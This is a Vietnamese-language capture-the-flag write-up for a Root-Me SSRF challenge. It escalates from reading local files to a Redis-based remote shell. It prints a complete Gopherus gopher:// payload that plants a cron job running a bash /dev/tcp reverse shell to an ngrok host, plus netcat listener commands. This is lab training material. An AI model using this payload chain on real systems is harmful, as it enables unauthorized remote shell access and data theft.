

# SSRF

**Tên challenge:** Server Side Request Forgery

**Link challenge:** [Here](https://www.root-me.org/en/Challenges/Web-Server/Server-Side-Request-Forgery)

**Tác giả challenge:** sambecks

**Mục tiêu challenge:** Your goal is simple: compromise the virtual environment "SSRF Box".

The validation password of challenge (Realist) is in the `/root` directory.

Validation flag is stored in the file `/passwd`

**Tác giả Writeup:** Shino

---

# Bài giải

**B1:** Đầu tiên, giao diện Website chỉ có 1 chức năng là CURL như sau:


Vì ta đã biết lỗ hổng là SSRF nên ta sẽ thử payload cơ bản như `file:///etc/passwd` để xem sao

**B2:** Ta thử nhập payload `file:///etc/passwd`


=> Trang Web đã thực sự đọc được file nội bộ `/etc/passwd`

**B3:** Ta tiếp tục thử input 2 payload `file:///passwd` và `file:///root/passwd` để xem liệu ta có thể lấy được `Flag` thì cả hai đều trả về kết quả:

```
Erreur Curl : Couldn't open file
```

=> Lỗi trên, có thể là do ta không đủ quyền hạn để mở file đó hoặc file đó không tồn tại nhưng khả năng đầu tiên sẽ hợp lý hơn.

Ngoài ra, ta cũng chẳng thể chèn thêm bất kỳ câu lệnh `Command` nào khác.

**Thông tin thêm:** Nếu như bạn đi tìm hiểu thì lỗ hổng SSRF có thể đạt được RCE.

* **Cụ thể:** Nếu như trong Server nội bộ của mục tiêu mở những port khác ngoài port cho Website như 80 hoặc 443, thì ta có thể xem xét đến hướng đi này. Nếu may mắn thì những Service mà Server Internal mở port có thể sẽ tồn tại những lỗ hổng dẫn đến RCE, và đây chính là mục tiêu mà ta sẽ hướng tới.

**B4:** Ta thử Brute-force Port đang mở trên Server nội bộ `127.0.0.1:port` và ta sẽ thử port từ `[1 -> 65535]`



Ta thử cho đến khi đúng port `6379` thì trang Web bắt đầu load chậm hơn bình thường rất nhiều.

=> Server nội bộ đang mở port `6379`.

**Câu hỏi:** Vậy tiếp theo ta phải làm sao để khai thác lỗ hổng ở trên port `6379` này ?
* **Trả lời:** Khá may mắn là Server nội bộ đang mở port `6379`, đây là port của Redis mà nếu port này đang mở thì ta có thể ghi đè lên file system, tạo 1 file để RCE hoặc tạo Reverse Shell.

Ta có thể dùng tool [Gopherus](https://github.com/tarunkant/Gopherus) để giúp ta tạo payload từ đó gửi lên Web và đạt được RCE.

Cách dùng tool khá đơn giản nhưng trước tiên ta phải dùng lệnh `ngrok tcp 1234` để mở 1 IP public có nhiệm vụ tiếp nhận gói tin bên ngoài và chuyển tiếp vào trong port `1234` của máy ta, trong trường hợp bạn không có IP public.

Sau khi dùng tool thì ngrok sẽ cung cấp cho ta 1 địa chỉ có dạng như `tcp://0.tcp.ap.ngrok.io:port`, ta sẽ điền `0.tcp.ap.ngrok.io` khi tool `gopherus` yêu cầu ta cấp IP.
```
$> python2 gopherus.py --exploit redis

                                                                                                                                                                                               
  ________              .__                                                                                                                                                                    
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                                                                                                                     
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                                                                                                                     
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                                                                                                                      
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                                                                                                                     
        \/       |__|        \/     \/                 \/                                                                                                                                      
                                                                                                                                                                                               
                author: $_SpyD3r_$                                                                                                                                                             
                                                                                                                                                                                               

Ready To get SHELL

What do you want?? (ReverseShell/PHPShell): Reverseshell

Give your IP Address to connect with victim through Revershell (default is 127.0.0.1): 0.tcp.ap.ngrok.io                                                            
What can be his Crontab Directory location
## For debugging(locally) you can use /var/lib/redis :                                                                                                                                         

Your gopher link is ready to get Reverse Shell:                                                                                                                                                
                                                                                                                                                                                               
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2464%0D%0A%0A%0A%2A/1%20%2A%20%2A%20%2A%20%2A%20bash%20-c%20%22sh%20-i%20%3E%26%20/dev/tcp/0.tcp.ap.ngrok.io/1234%200%3E%261%22%0A%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2416%0D%0A/var/spool/cron/%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%244%0D%0Aroot%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A

Before sending request plz do `nc -lvp 1234`
```

Kế tiếp, ta copy payload rồi chỉnh sửa lại payload ở chỗ `1234` thành `port` của `ngrok` là `15859`. Vì tool `Gopherus` sẽ luôn tạo payload mặc định là `1234`, nếu như bạn có sẵn IP public trong Card mạng thì bạn không cần sửa lại. Nếu bạn dùng `ngrok` để mở 1 IP public thì bạn bắt buộc phải sửa lại, để khi gói tin đi đến địa chỉ IP public ngrok của ta thì nó sẽ chuyển tiếp vào port `1234` đang mở trong máy của mình.

Tiếp đến, ta sẽ lắng nghe ở port `1234` trong máy mình thông qua lệnh `nc -lnvp 1234`, rồi sau đó gửi payload đã chỉnh sửa lên Webserver.

Đợi 1 lúc thì ta sẽ thấy ta đã kết nối được với Shell

Tiếp theo, bạn chỉ cần đọc dùng lệnh `cat /passwd` thôi là được.

